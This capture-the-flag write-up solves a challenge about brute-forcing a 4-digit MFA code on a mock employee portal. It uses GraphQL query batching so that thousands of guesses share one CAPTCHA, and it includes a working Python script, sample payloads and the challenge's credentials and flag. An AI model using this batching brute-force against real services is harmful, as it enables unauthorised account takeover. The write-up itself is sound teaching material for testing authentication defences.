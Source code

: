 # Look, if you had one shot

## Description

> Or one opportunity. To guess one mfa code on the website. In one moment. Could you hack it? Or just let it slip?
>
> During a penetration test of Generally Quirky Labs' online websites, you stumbled across their company employee portal. After some recent brute force attacks, the security team got tired of watching hackers knock on the door all day long. So they implemented both MFA and Captcha codes, using some of the latest technologies. Unfortunately for them, they were not aware of one of the technologies' features...Note: DOSing the website by sending web requests is not the way.
>
> Username: `matthew@generallyql.com`
>
> Password: `yHfm34P9@v!Ge6`

## Solution

We are given the account credentials, but there is an MFA code that we need to submit. We are told that the code expires in 3 minutes, and there is a CAPTCHA code we need to submit, to prevent bruteforcing the MFA code.

![](<../../.gitbook/assets/Screenshot 2021-12-07 at 8.01.25 PM.png>)

Looking under the hood, we see that there is a `login_session_token` that is sent to us.

![](<../../.gitbook/assets/Screenshot 2021-12-07 at 8.02.33 PM.png>)

In the GraphQL query sent to `mfa_service.php`, the token is used again. It appears that as long as we use this same login token, we can submit as many attempts as we want, provided we give the correct CAPTCHA code in the GET request parameter.

![](<../../.gitbook/assets/Screenshot 2021-12-07 at 8.04.45 PM.png>)

In GraphQL, we can use **batching** to send several queries at a time. If the server processes all these queries together using the same CAPTCHA code, this would defeat the purpose of the CAPTCHA.

For instance, we can submit two queries the same HTTP request:

```json
[
    {
        "query":"query submit_mfa_token($code: String!, $usertoken: String!, $username: String!) { submit_mfa_token(code: $code, usertoken: $usertoken, username: $username) }",
        "variables"{
            "code":"0000",
            "usertoken":"6a5836fa459785d8",
            "username":"matthew@generallyql.com"
        }
    },
    {
        "query":"query submit_mfa_token($code: String!, $usertoken: String!, $username: String!) { submit_mfa_token(code: $code, usertoken: $usertoken, username: $username) }",
        "variables":{
            "code":"0001",
            "usertoken":"6a5836fa459785d8",
            "username":"matthew@generallyql.com"
        }
    }
]
```

Indeed, both queries were processed! We managed to try two MFA tokens, with the same CAPTCHA code.

![](<../../.gitbook/assets/image (91).png>)

Since the MFA token is only 4 digits, we could simply batch thousands of queries together, drastically reducing the number of CAPTCHAs required. Here I batched 3000 queries at a time due to the request length limits.

```python
import requests, json

lower_bound = 0

while lower_bound < 10000:
    payload = []
    print("Lower bound: " + str(lower_bound))
    for i in range(lower_bound, lower_bound + 3000):
        payload.append(
            {
                "query":"query submit_mfa_token($code: String!, $usertoken: String!, $username: String!) { submit_mfa_token(code: $code, usertoken: $usertoken, username: $username) }",
                "variables":{
                    "code":f"{i}",
                    "usertoken":"ef7ec81d3dfe867f",
                    "username":"matthew@generallyql.com"
                }
            }
        )

    # print(payload)

    captcha = input("Enter captcha: ")
    r = requests.post(
        f"https://metaproblems.com/1b7b23a1d213dc1c4d24d998f11b0b35/generallyquirkylabs/mfa_service.php?captchacode={captcha}", 
        json=payload,
        headers={
            "Cookie": "GENERALLYQUIRKYLABS=75767933c8676f1ef6633a81b6fb76fd"
        }
    )
    print(r.json())

    if 'code' in r.json() and r.json()['code'] == 4:
        continue

    for result in r.json():
        if json.loads(result['data']['submit_mfa_token'])['code'] != 3:
            print(result)

    lower_bound += 3000
```

Eventually, one of our attempts will be successful.

```json
{
    'data': {
        'submit_mfa_token': '{"code":1,"message":"Login successful!","redirect":".\\/dashboard.php"}'
    }
}
```

The flag is `MetaCTF{if_brute_force_doesnt_work_use_more_brute_forceeeeeeee}`
